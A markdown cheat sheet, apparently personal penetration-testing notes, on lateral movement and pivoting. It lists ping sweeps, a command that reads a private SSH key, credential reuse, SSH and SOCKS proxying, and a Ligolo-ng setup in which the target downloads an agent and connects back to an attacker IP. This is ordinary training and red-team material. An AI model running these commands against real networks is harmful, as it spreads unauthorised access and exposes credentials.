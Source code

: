 
## #LateralMovement & #Pivoting

- Find IPs
	- Linux - `for i in {0..255}; do for j in {1..254}; do (ping -c 1 172.16.$i.$j | grep "bytes from" &) done; done; wait`
		- from ssh / nc shell NOT with proxychains4 as it may not work
		- also enumerate more IPs in subnet with (**change for different subnets!**):
			- `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`
			- `for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"`
	- Windows  - `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`
		- from cmd
- #SSH Keys: `cat ~/.ssh/id_rsa`
- Reuse Credentials: Try credentials across services
- Port Forwarding:
    - `ssh -L 8080:localhost:80 user@<target>`
    - `chisel` for advanced pivoting
- Dynamic SOCKS Proxy: `ssh -D 9050 -N user@<target>`
- #ProxyChains: Modify `/etc/proxychains.conf`
	- `socks4 127.0.0.1 9050`
	- `ssh -i RSA.txt -D 9050 user@10.X.X.X`
	- `proxychains4 <command>`
- #Ligolo-ng: Agent/client setup for tunneling
    - LHOST:
        - `./ligolo-ng_proxy -selfcert -laddr 0.0.0.0:11601`
        - `sudo sysctl -w net.ipv4.ip_forward=1`
        - `sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE`
    - RHOST:
        - Windows:
            - `Invoke-WebRequest -Uri "https://ligolo-agent" -OutFile ligolo-ng_agent.exe`
            - `.\ligolo-ng_agent.exe -connect <ATTACKER_IP>:11601 -ignore-cert`
        - Linux:
            - `wget https://ligolo-agent.tar.gz`
            - `tar -xvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz`
            - `chmod +x ligolo-ng_agent`
            - `./ligolo-ng_agent -connect <ATTACKER_IP>:11601 -ignore-cert`
    - Start Tunnel:
        - `ligolo-ng> session`
        - `ligolo-ng> session <SESSION_ID>`
        - `ligolo-ng> ifconfig`
        - `ligolo-ng> start`
    - Set Up IP Routing:
        - `sudo ip route add <TARGET_NETWORK> dev ligolo`
        - `ip route`
    - Clean Up:
        - `ligolo-ng> stop`
        - `sudo ip route del <TARGET_NETWORK> dev ligolo`